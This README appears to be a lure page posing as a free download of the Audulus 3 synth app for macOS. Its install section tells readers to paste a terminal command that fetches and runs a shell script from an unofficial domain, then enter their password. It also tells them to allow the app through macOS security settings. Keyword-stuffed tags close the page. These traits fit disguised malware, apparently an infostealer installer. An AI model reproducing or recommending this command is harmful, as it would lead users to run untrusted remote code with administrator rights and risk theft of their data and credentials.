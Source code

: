 <p align="center">
  <img src="https://i.ibb.co/20rjDj3k/1684163388-icon.webp" alt="Audulus 3 macOS Banner" />
</p>

<h1 align="center">Audulus 3 for macOS</h1>

<p align="center">
  🎛️ Modular audio designer and synthesizer lab for macOS. Patch live, build instruments, and explore sound visually.  
  <br><br>
  ✅ Native Apple Silicon & Intel support  
  ✅ Works on macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/176" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20AUDULUS%203%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Audulus 3 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/wZSWY3JQ/1684163403-2.webp" alt="Audulus 3 Modular Patch Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Audulus 3?

**Audulus 3** is a modular audio environment for macOS, ideal for sound designers, synth enthusiasts, and experimental musicians. With a sleek node-based interface, it allows you to patch oscillators, filters, effects, and control signals visually — and hear the results in real time.

Whether you're building a granular synth, creating audio effects, or just exploring sound, Audulus gives you the freedom to design, experiment, and iterate without limits.

It runs natively on **Apple Silicon (M1/M2/M3)** and performs smoothly on **macOS Sonoma**, **Ventura**, and **Monterey**.

---

## ✅ Why Choose Audulus 3?

- 🎚️ **Modular Signal Flow Designer**  
- 🔊 **Real-Time Patch Editing**  
- 💡 **Visual Programming for Audio**  
- 🎛️ **Synths, Effects, and Utilities**  
- 📦 **Load Custom Modules & Patches**  
- ⚙️ **Supports MIDI & External Input**  
- 🖥️ **High-Performance macOS Native App**  
- 🧪 **Perfect for Sound Design & DSP Learning**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/n8DJnbzb/1684163404-1.webp" alt="Audulus 3 Node Editor Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/jPgY6wC5/1684163405-4.webp" alt="Audulus 3 Audio Routing View Screenshot" />
</p>

---

## 🚀 Key Features

- Drag-and-drop patching interface  
- Modular synth engine  
- Custom module building  
- Real-time DSP visualization  
- MIDI controller support  
- Fast node search and filtering  
- Audio Units hosting  
- Offline use and zero background sync

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Audulus 3 under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Modular+Synth+Designer-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Visual+Node+Patch+System-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Audulus 3 – Sound, Visually Engineered

Thanks for using **Audulus 3 for macOS**.  
Design audio tools, synths, and effects the visual way.

---

## 🧭 Usage Context

Audulus 3 is a standalone modular DSP environment for audio exploration and instrument design.  
No syncing, telemetry, or online accounts required.

Patches remain fully local.  
This tool is not affiliated with Apple or commercial DAWs.

---

## 🔍 Tags

```text
audulus 3 for mac download, modular synth builder macos audulus, download audulus visual dsp mac, audulus node patch synth mac, apple silicon modular synth mac, realtime dsp environment mac audulus, best modular audio editor macbook, audulus m1 m2 sound design app, visual audio programming macos tool, audulus offline synth designer mac, download audulus 3 full mac version, mac patch-based modular audio tool, experimental sound editor audulus mac, granular synthesis app mac audulus, audio signal chain builder mac
